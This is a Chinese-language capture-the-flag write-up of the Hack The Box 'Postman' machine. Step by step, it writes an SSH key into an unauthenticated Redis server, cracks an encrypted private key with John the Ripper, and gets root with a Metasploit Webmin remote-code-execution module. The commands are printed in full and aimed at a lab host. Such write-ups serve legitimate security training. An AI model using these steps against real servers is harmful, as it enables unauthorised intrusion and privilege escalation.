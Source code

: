@[TOC](目录)
## HTB - Postman
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200320145552111.png)

## [1]侦察和枚举
### [1.1]开放的端口
- 使用**nmap**扫描并搜集开放端口以及有用的信息
	

```bash
root@kali:~/HTB/Postman# nmap -sC -sV -p- -oA nmap/Postman 10.10.10.160
```
![nmap扫描结果](https://img-blog.csdnimg.cn/2020032015073485.png)
我们可以发现：

	 - 具有已知漏洞的默认SSH端口上的OpenSSH 7.6p1服务器，该漏洞允许枚举用户名
	 - 一个Apache 2.4.29默认的HTTP端口
	 - 6379端口上的Redis 4.0.9服务器
	 - 10000端口上的Webmin 1.910
### [1.2]Web发现
在浏览器搜索框输入靶机的IP的之后，我们发现一个正在建设的静态网站
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200320151814877.png)
### [1.3]Redis
Redis是一个内存中的数据结构，通常用作数据库或者缓存。4.0.9版本存在许多的公共漏洞。客户端**redis-cli**可以用于与服务器通信。该服务不受保护，无需进行身份验证即可访问。

 - 使用**telnet**检查是否没有密码验证 

```bash
root@kali:~/HTB/Postman# telent 10.10.10.1600 6379
```
可以发现并不需要密码验证。
![在这里插入图片描述](https://img-blog.csdnimg.cn/2020032015273911.png#pic_center)
### [1.4]Webmin
Webmin是用于基于Unix的系统的基于Web的系统配置工具。此处使用的版本具有2个带有Metasploit模块的HIGH / CRITICAL漏洞。一个是后门，可用于重置管理员密码。但是，它要求启用密码更改功能，在这里不是这种情况。

## [2]获得访问权限
### [2.1]创建公钥
既然我们知道Redis的工作原理是不要求任何的身份验证，我们可以利用这个漏洞获得访问的权限。但首先我们需要创建一个SSH密钥，这样子我们才能进入机器。

 - 使用**ssh-keygen**创建SSH密钥
 

```bash
root@kali:~/HTB/Postman# ssh-keygen -t rsa
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200320153507156.png)
创建好了之后我们下一步就是准备将 它存储到内存之中。由于内存转储中也将包含垃圾，因此我们在密钥周围使用换行符，并且保存在**foo.txt**中，以便我们更好的守护我们的**SSH密钥**。

- 守护SSH密钥

```bash
root@kali:~/HTB/Postamn# (echo -e "\n\n"; cat keys.pub; echo -e "\n\n") > foo.txt
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200320154031530.png#pic_center)
### [2.2]发布密钥
```bash
root@kali:~/HTB/Postman# redis-cli -h 10.10.10.160 flushall
root@kali:~/HTB/Postman# cat foo.txt | redis-cli -h 10.10.10.160 -p 6379 -x set s-key
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200320154634557.png#pic_center)
当返回的结果为OK的时候，我们就成功的发布了我们的密钥(foo.txt).接下来就是配置了。

### [2.3]获取Redis命令行-将密钥插入到内存之中
我们现在需要将s-key(SSH密钥)存储到 .ssh 文件夹中，以便我们可以远程SSH登录到目标计算机。

- 获取Redis命令行界面

```bash
root@kali:~/HTB/Postman# redis-cli 10.10.10.160 -p 6379
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200320155205146.png#pic_center)

- 查看Redis的工作目录、创建我们用有的权限.ssh内部/var/lib/redis。将名称更改为**authorized_keys**和**save**

```java
10.10.10.160:6379> CONFIG GET dir
10.10.10.160:6379> CONFIG SET dir /var/lib/redis/.ssh
10.10.10.160:6379> CONFIG SET dbfilename "authorized_keys"
10.10.10.160:6379> save
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/2020032015574579.png)

### [2.4]使用SSH登录获得访问权限
- 登录
```bash
root@kali:~/HTB/Postman# ssh -i keys redis@10.10.10.160 
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200320160056531.png)
## [3]本地侦察和枚举
成功登录到目标机之后，接下来就是寻找一些有用的东西

- 使用**history**查看历史命令
```bash
redis@Postman:~$ history
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200320160816690.png)
我们管理员访问了两个文件，**scan.py**和**id_rsa.bak**，其中一个可能是SSH私钥的备份。**scan.py**是不能通过**Redis**访问权限找到它，但是私钥受到的保护很弱，并且可以被全世界范围给读取到~~所以我们针对**id_rsa.bak**下手。
```bash
redis@Postman:~$ find /-name "id_rsa.bak" -ls
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200320161440608.png#pic_center)
可以发现**id_rsa.bak**文件的所在目录在**/opt/**下。

## [4]特权提升
### [4.1]用户透视
使用**cat**查看**id_rsa.bak**，会发现它是加密的
```bash
redis@Postamn:/opt$ cat id_rsa.bak
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/2020032016203153.png#pic_center)
将私钥复制粘贴到我们的工作目录上的matt2john，使用john进行破解。

- 破解RSA私钥

```bash
root@kali:~/HTB/Postamn# python ssh2john matt2john > matt2john-pass
root@kali:~/HTB/Postamn# john matt2john --wordlist=/usr/share/wordlists/rockyou.txt
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200320162546267.png)
ssh2john的目录在/usr/share/john/ssh2jon.py
破解了**RSA**知道了密码为“computer2008”,现在可以使用这个密码登录Matt`

```bash
redis@Postamn:~$ su Matt
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200320162904489.png#pic_center)
登录之后到**/home/Matt**目录下找到完成Postman的提交密钥。
如果只是为了完成Postman到这边就完成了，下面是获得root的方法。
### [4.2]升级为root
我启动了metasploit并搜索了相关的漏洞利用程序。

- 查找漏洞

```bash
root@kali:~/HTB/Postman# searchsploit webmin 1.910
```
- 进入metasploit控制台进行配置

```bash
root@kali:~/HTB/Postman# msfconsole 
msf5> use exploit/linux/http/webmin_packageup_rce 
msf5 exploit(linux/http/webmin_packageup_rce) > set rhosts 10.10.10.160
msf5 exploit(linux/http/webmin_packageup_rce) > set usename Matt
msf5 exploit(linux/http/webmin_packageup_rce) > set lhost tun0
msf5 exploit(linux/http/webmin_packageup_rce) > set ssl true
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/2020032016381614.png)
- 运行

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200320164356237.png)
可以看到我们成功的获得了root！
I got Root~!

